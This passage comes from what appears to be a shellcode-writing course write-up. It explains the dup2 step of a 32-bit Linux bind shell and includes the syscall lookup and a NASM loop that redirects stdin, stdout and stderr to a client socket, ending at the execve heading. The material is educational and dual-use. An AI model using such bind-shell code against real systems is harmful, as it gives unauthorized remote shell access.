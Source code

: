 ### 3. Duplicate file descriptors [ `dup2` ]

The `dup2` syscall is utilized to "clone" or duplicate file handles. If utilized in C or C++ the prototype is `int dup2 (int oldfilehandle, int newfilehandle)`. The `dup2` syscall clones the file handle `oldfilehandle` onto the file handle `newfilehandle`. Before executing the shell on the next command `execve` this is necessary to redirect `stdin`, `stdout` and `stderr` from the executed process to the network socket (client connection). from [man 2 dup2](http://man7.org/linux/man-pages/man2/dup.2.html), following is the format of `dup2` function.
{% highlight c %}
int dup2(int oldfd, int newfd);
{% endhighlight %}

In this case the `oldfd` is the socket fd from `socket` function, and the `newfd` are `stdin`, `stdout` and `stderr`.

to get the system call number on Ubuntu x86
{% highlight console %}
kecebong@ubuntu:~$ grep dup2  /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_dup2                63

kecebong@ubuntu:~/slae32/assigment/bind/asm$ python
>>> hex(63)
'0x3f'
{% endhighlight %}

and the following is the assembly code:

{% highlight nasm linenos %}
; dup2 arg new_sock
mov ebx, eax    ; save the new socket returned from `accept` function from ebx into eax

; for looping
; set ecx = 0x2 for counter 0-2
push byte 0x2
pop ecx

; Duplicate stdin/stdout/stderr to client socket
;
; dup2(new_sock, 0) - stdin
; dup2(new_sock, 1) - stdout
; dup2(new_sock, 2) - stderr
;
; al  = 0x3f
; ebx = client socket new_sock
; ecx = 0x2 => 2, 1, 0 - counter
dup2:
    mov al, 0x3f   ; dup2 = 63 ~ 0x3f
    int 0x80
    dec ecx
    jns dup2       ; continue to jump to dump2 label (loop) until the signed flag is set
{% endhighlight %}

### 4. Execute the shell [ `execve` ]
